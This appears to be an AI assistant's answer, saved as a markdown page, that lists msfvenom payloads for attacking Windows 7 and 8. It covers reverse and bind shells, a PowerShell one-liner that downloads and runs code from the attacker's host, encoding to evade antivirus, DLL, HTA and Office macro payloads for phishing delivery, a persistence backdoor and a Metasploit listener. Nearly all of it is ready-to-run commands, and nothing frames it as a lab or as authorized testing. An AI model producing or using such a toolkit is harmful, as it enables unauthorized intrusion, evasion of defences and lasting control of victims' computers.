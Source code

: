 For Windows 7 and 8, you can generate multiple **msfvenom** payloads depending on whether you want a **reverse shell**, **bind shell**, or a **staged/stageless Meterpreter** payload. Below are different payloads categorized for your needs.

---

## **1. Reverse Shell Payloads**
These payloads connect back to your attacker's machine (**LHOST** = your IP).  

### **Meterpreter Reverse TCP (Staged)**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f exe > shell.exe
```
- **Pros:** Stable, supports post-exploitation modules.
- **Cons:** May be detected by AV.

### **Meterpreter Reverse HTTP**
```
msfvenom -p windows/meterpreter/reverse_http LHOST=<Your_IP> LPORT=8080 -f exe > shell.exe
```
- **Pros:** Evades some firewalls using HTTP.
- **Cons:** Slightly slower than TCP.

### **Meterpreter Reverse HTTPS**
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<Your_IP> LPORT=443 -f exe > shell.exe
```
- **Pros:** Encrypted communication to evade detection.
- **Cons:** Slightly higher latency.

### **Stageless Meterpreter Reverse TCP**
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your_IP> LPORT=4444 -f exe > shell.exe
```
- **Pros:** Single-stage (faster execution).
- **Cons:** Larger file size.

---

## **2. Bind Shell Payloads**
These payloads **open a port on the target** machine, and you connect to it.

### **Windows Bind Shell (Staged)**
```
msfvenom -p windows/shell/bind_tcp LPORT=4444 -f exe > bind.exe
```
- **Pros:** No need for an attacker’s IP.
- **Cons:** Might be blocked by firewalls.

### **Windows Bind Shell (Stageless)**
```
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > bind.exe
```
- **Pros:** No need for an external IP.
- **Cons:** Less stealthy.

---

## **3. Powershell Payloads (Fileless)**
These payloads execute **in memory** (useful for bypassing AV).

### **Powershell Reverse Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f psh-cmd > shell.ps1
```
To execute on the target:
```
powershell -ExecutionPolicy Bypass -File shell.ps1
```

### **Powershell One-Liner**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f psh > shell.txt
```
Execute it using:
```
powershell -ExecutionPolicy Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://<Your_IP>/shell.txt')"
```

---

## **4. Encoded Payloads (Bypassing AV)**
If AV is detecting the payload, try encoding it:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe > encoded.exe
```
- **`-e x86/shikata_ga_nai`**: Encodes the payload.
- **`-i 10`**: Increases encoding iterations.

For further AV evasion, consider using a custom packer (Veil-Evasion, Shellter, or manual obfuscation).

---

## **5. DLL & HTA Payloads (Alternative Execution)**
### **DLL Payload**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f dll > exploit.dll
```
Can be injected into a process using `rundll32.exe`.

### **HTA (HTML Application) Payload**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f hta-psh > exploit.hta
```
Delivered via phishing or social engineering.

---

## **6. Macro-Based Payload (For Office Documents)**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=4444 -f vba > macro.txt
```
Insert the macro into a Microsoft Office document.

---

## **7. Persistent Backdoor**
To maintain access, use:
```
run persistence -U -i 5 -p 4444 -r <Your_IP>
```
- **`-U`**: Runs at user login.
- **`-i 5`**: Reconnects every 5 seconds.
- **`-p 4444`**: Uses port 4444.

---

## **8. Listening for Connections (Handler)**
After generating the payload, set up the **Metasploit listener**:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Your_IP>
set LPORT 4444
set ExitOnSession false
exploit -j
```

---

### **Which One Should You Use?**
- **Windows 7 (no AV):** `windows/meterpreter/reverse_tcp`
- **Windows 7 (with AV):** Encoded payload or `reverse_https`
- **Windows 8 (firewalled):** `reverse_http` or `reverse_https`
- **Stealthy attack:** PowerShell payloads or macro-based payloads

Let me know if you need help with anything specific.
